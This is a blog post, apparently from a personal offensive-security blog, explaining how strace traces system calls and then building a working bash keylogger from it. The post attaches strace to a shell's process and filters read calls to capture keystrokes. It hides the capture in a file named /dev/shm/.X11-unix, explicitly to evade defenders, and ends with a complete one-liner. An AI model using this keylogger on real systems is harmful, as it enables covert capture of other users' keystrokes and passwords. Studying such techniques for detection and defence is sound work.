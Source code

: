 ```yaml
---
title: Strace - Bash Keylogger
date: 2021-11-17 00:00:00 +0000
categories: [Linux, Tools, Offensive]
tags: [linux, tools, offensive]
toc: true
published: true
---
```



## Introduction

System calls are used by processes to interact with the kernel. 
For example if a process wants to read or write to a file, they must make a system call to do so.

To see this in practice, we'll use `strace`.

`strace` simply traces system calls, and is primarily used for debugging purposes. 

For this demonstration we'll use the basic command echo:
```bash
echo "Freddie" > /tmp/demo.file
```

This command simply writes the string "Freddie" to the temporary file `/tmp/demo.file`

We can use `strace` to trace what system calls are being called during the execution of this command, and to view what is actually going on under the hood.

To do this, we could simply run `strace [command]`, although to glean even more information about the process, we can actually attach the `strace` tool to the parent process.
This allows us to trace the bash redirect (`>`), and is generally more insightful. 


- `strace -p [pid]` attaches to a PID (Process ID)
- `$$` in bash is the current process's PID (or the bash shell)

![](/assets/images/strace/strace-output-1.png)


You can see we have now attached to the process running above.

We can now paste our `echo` command we created above.

If you're following along, prepare to be greeted with an overwhelming amount of information.

If we ignore the irrelevant (for the purposes of this demonstration) system calls made by bash and search for our input we can see two key system calls are made. 

![](/assets/images/strace/strace-output-2.png)


`openat()` - This opens `/tmp/demo.file` with the 0666 permissions.
`write()` - This core system call writes the string `Freddie\n` to the opened file. 

It is worth noting the newline is appended by default by the echo command - we can remove that with `echo -n [string]` if necessary. 


If you have been following the commands, you may have noticed something interesting when tracing the bash process. 

![](/assets/images/strace/strace-output-3.png)

When we type commands into the bash shell above, each character can be seen in both the `read` and `write` system calls. From this simple observation we can process the strace output to create a very rudimentary bash keylogger. 
<br>

### Basic Keylogger

As seen by the previous strace example, a large amount of unimportant system calls are also generated. To filter only the system calls we want, we can use the `-e [syscall]` flag with strace.

We will select the `read` system call to detect all keys entered.

![](/assets/images/strace/strace-output-8.png)

This looks much better. 

Now, let's try to extract input in a more readable format.
This is where the fun(?) begins. 

![](/assets/images/strace/strace-output-7.png)

If we try to pipe our strace output to any text processing commands, nothing.
After a considerable amount of head banging and stack overflow researching, this is due to the fact `strace` writes all it's output to `stderr`. 

![](/assets/images/strace/strace-output-6.png)

With a little more help from stack overflow (I fear any man who can remember regex), each character inside the quotes can be extracted. 

![](/assets/images/strace/strace-output-9.png)

This is when another *slight* issue arises. Due to some linux black magic, if you pipe the output of strace to grep, it is "buffered", and cannot be easily piped into further commands. 
<br>

To get around this technical issue, we can output strace to a file in the background, then read the file and perform operations on that output. 

### Basic Evasion

```bash
strace -e read -p [pid] -o /dev/shm/.X11-unix
```

The above command creates a hidden file in `/dev/shm`. The `/dev/shm` directory lives only in live memory, and is volatile. This makes it great for writing files we don't want to be found, as the folder is wiped on restart. 

`X11` is a linux graphics display, and `.X11-unix` is it's config file.

From experience you should not delete that (the real) file - bad things happens.

This taps into the primal instinct of "bugger I won't delete that again" to prevent defenders from ***not*** deleting our keylogger file >:)

<br>

```bash
strace -e read -p [PID] -o /dev/shm/.X11-unix &
cat /dev/shm/.X11-unix
```


We can background the `strace` command, then read the hidden file in order to parse it correctly.
<br>

### Parsing

Now, all that is needed to be done is to parse the strace output in a readable manner. 

```bash
strace -e read -p 1239419 -o /dev/shm/.X11-unix &
cat /dev/shm/.X11-unix | grep -oa -E '"(.*?)"' | sed 's/^.\(.*\).$/\1/' | tr -d "\n" | sed -e "s/\\\r/\n/g" 
```
<br>

If we wrap the `cat` command using `watch` to continually update it, we can see captured keystrokes in live time.

```bash
watch -n 0.1 'cat [command]'
```
<br>

```bash
strace -e read -p 1239419 -o /dev/shm/.X11-unix &
watch -n 0.1 "cat /dev/shm/.X11-unix | grep -oa -E '\"(.*?)\"' | sed 's/^.\(.*\).$/\1/' | tr -d '\n' | sed -e 's/\\\r/\n/g'"
```

The result:

![](/assets/images/strace/keylogger-in-action.png)

Voila!

The final step to construct our janky bash keylogger, is to concatenate it into a glorious one-liner:

```bash
strace -e read -p [PID] -o /dev/shm/.X11-unix & watch -n 0.1 "cat /dev/shm/.X11-unix | grep -oa -E '\"(.*?)\"' | sed 's/^.\(.*\).$/\1/' | tr -d '\n' | sed -e 's/\\\r/\n/g'"
```

We now have a functioning keylogger, that operates off a commonly installed debugging tool `strace`!
<br>
### Conclusion

If there's any takeaway messages from this absolute abomination of a script and article, it's that there is almost nothing that Stack Overflow and a little glue can't fix™
